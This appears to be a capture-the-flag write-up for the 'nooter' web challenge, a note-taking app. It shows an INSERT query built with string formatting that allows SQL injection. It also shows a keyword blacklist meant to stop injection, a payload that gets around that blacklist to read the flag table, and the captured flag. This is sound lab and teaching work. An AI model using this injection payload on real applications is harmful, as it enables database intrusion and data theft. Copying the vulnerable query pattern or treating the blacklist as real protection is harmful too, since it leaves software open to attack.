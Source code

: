 # nooter
Writeup for nooter (Web) - Flagyard Training Labs

# Description
> Just another note taking app :)

# Solution
We have an notepad app where we can register, login, and making a note. 

![alt text](image.png)

We are get the source code of the application and on the function for notes there is SQL Injection vulnerability

```python
query = db.insert("INSERT INTO notes(username, notes) VALUES(?,'%s')" % note, session['username'])
```

But there is fuction for blacklist some word

```python
def blacklist(string):
    string = string.lower()
    blocked_words = ['exec', 'load', 'blob', 'glob', 'union', 'join', 'like', 'match', 'regexp', 'in', 'limit', 'order', 'hex', 'where']
    for word in blocked_words:
        if word in string:
            return True
    return False
```

This function blocks common SQL keywords used for data exfiltration, such as UNION, JOIN, and WHERE. This forces us to find an alternative method to the popular UNION SELECT technique.

# Payload
For creating the payload for retrive the flag we need to create payload that not contains the blacklist word. Word that i discover can help us is SELECT. 

We can use this payload for get the flag

```sql
SELECT flag FROM flag
```

Now we need to can creating the payload for this SQL querry executed

```
'), ('username', (SELECT flag FROM flag))--
```

change the username with your username then it will execute sql and reveal us the flag

![alt text](image-1.png)

# Flag
Flag: `FlagY{d695ef54fc9bd8ca664193eb485c4721}`